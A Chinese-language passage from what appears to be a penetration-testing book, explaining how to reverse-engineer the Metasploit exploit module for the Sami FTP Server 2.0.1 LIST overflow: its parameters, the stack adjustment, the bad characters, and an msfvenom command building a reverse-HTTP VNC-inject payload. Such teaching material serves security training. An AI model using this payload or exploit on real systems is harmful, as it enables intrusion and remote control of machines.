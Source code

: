 我们将对 Sami FTP Server 2.0.1 的 Metasploit 模块进行反向操作，从概念上来说，实际上是。为了简洁起见，我们不会展示整个利用代码，但你可以在 Metasploit 的安装目录下的`/usr/share/metasploit-framework/modules/exploits/windows/ftp`中查看。关于这个模块的更多细节可以在这里找到：[`www.rapid7.com/db/modules/exploit/windows/ftp/sami_ftpd_list`](http://www.rapid7.com/db/modules/exploit/windows/ftp/sami_ftpd_list)。

反向操作 Metasploit 模块时的第一件事是设置实际的利用。这将揭示需要设置的用于利用实际服务的必要参数。正如你所看到的，我们需要用户名、密码和相关有效载荷。

![反向操作 Metasploit 模块](img/B04315_08_42.jpg)

接下来，我们将看一下实际的有效载荷；我发现将其复制到像 Notepad++这样的代码编辑器中会更容易。这样可以让你看到通常需要哪些括号和分隔符。与以前编写利用的示例不同，我们将从实际的 shellcode 开始，因为这将需要最大的努力。因此，看一下实际 Metasploit 模块的有效载荷部分。

![反向操作 Metasploit 模块](img/B04315_08_43.jpg)

如您所见，堆栈调整为 3500，以更准确地容纳 shellcode 的放置。您可以再次使用上面突出显示的相同方法进行计算。在较新的 Metasploit 模块中，您将看到`PrependEncoder`而不是`StackAdjustment`，带有加号或减号的值。因此，作为模块开发人员，您不必实际计算十六进制代码。

堆栈调整为`-3500`意味着我们将这个值添加到 ESP。为此，我们需要计算`-3500`的 ESP 调整，但是为了进行这个计算，我们需要将`-3500`改为十六进制值。十六进制等价值为`-0xDAC`。

![逆向 Metasploit 模块](img/B04315_08_44.jpg)

现在，我们将调整数据打印成十六进制文件。

![逆向 Metasploit 模块](img/B04315_08_45.jpg)

正如您在模块的有效负载部分看到的，有已知的不良字符。当我们生成初始有效负载时，我们将这些字符纳入到有效负载生成中。现在，我们使用这些特性生成有效负载。

```py
msfvenom -p windows/vncinject/reverse_http lhost=192.168.195.172 lport=443 -b '\x00\x0a\x0d\x20\x5c' -f raw -o payload

```

![逆向 Metasploit 模块](img/B04315_08_46.jpg)
